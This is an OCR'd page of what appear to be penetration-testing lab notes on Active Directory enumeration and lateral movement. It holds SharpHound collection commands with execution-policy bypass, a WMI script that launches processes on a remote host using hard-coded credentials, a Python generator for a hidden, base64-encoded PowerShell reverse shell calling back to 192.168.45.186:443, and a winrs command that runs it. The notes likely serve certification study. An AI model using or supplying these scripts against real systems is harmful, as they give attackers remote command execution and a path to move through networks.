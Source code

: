 ### SharpHound & BloodHound

Powershell Version:

```powershell
C:\Users\Public> powershell -ep bypass
PS C:\Users\Public> Import-Module .\SharpHound.ps1
PS C:\Users\Public> Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\pete\Desktop\ -OutputPrefix "audit"
```

BloodHound Queries:

* MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
* MATCH (m:Computer) RETURN m
* MATCH (m:User) RETURN m

### Lateral Movement

**WMI Powershell Script** [needs Local Administrator Group Credentials]

```powershell
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.186.72 -Credential $credential -SessionOption $Options 
$command = 'base64 encoded reverse shell';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

In order to obtain the encoded powershell command run `python3 wmi.py`

```python
import sys
import base64
payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.186",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
print(cmd)
```

**Winrs solution**

`winrs -r:files04 -u:jen -p:Nexus123! "powershell base64 encoded reverse shell"`

**PSExec**

Needs *Local Admin Group* and *Admin$* share enabled
